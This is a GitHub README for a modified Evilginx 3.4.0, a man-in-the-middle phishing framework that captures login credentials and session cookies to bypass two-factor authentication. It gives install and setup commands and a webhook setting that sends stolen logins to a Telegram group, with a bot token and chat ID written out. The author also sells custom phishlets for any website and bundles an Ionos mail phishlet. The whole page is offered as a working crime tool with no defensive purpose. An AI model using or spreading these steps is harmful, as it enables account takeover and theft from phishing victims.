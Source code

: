 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Evilginx 3.4.0 - Modified by @D3m0nNotorious








# NEW VERSION AVAILABLE
(https://github.com/D3m0nNotorious/Evil-Ginxx-3-ALL-MOD-by-D3m0nNotorious.git)
# NEW VERSION





# NEW VERSION AVAILABLE
(https://github.com/D3m0nNotorious/Evil-Ginxxx-3-ALL-MOD-by-D3m0nNotorious.git)
# NEW VERSION













This modified version can send logs to your telegram group chat.
Inside this modified version i have added free Ionos mail phishlet as proof of high quality product i have nothing to hide.
Incase u want more phishlets let me know we can do any website u want without any upfront payments.
https://t.me/HosterMSG

**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


This version Google / Gsuite Cookie Interception Template/Phishlet In Action.
https://vimeo.com/931409763

Alternative video url:
https://www.flexclip.com/editor/app?id=9e89b4e3509603d00d53064b8058bcd1


How to install ?

On Ubuntu:

1. git clone https://github.com/D3m0nNotorious/Evil-Ginxxx-3-ALL-MOD-by-D3m0nNotorious.git
2. cd Evil-Ginxxx-3-ALL-MOD-by-D3m0nNotorious
3. cd build
4. chmod +rwx evilginx
5. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
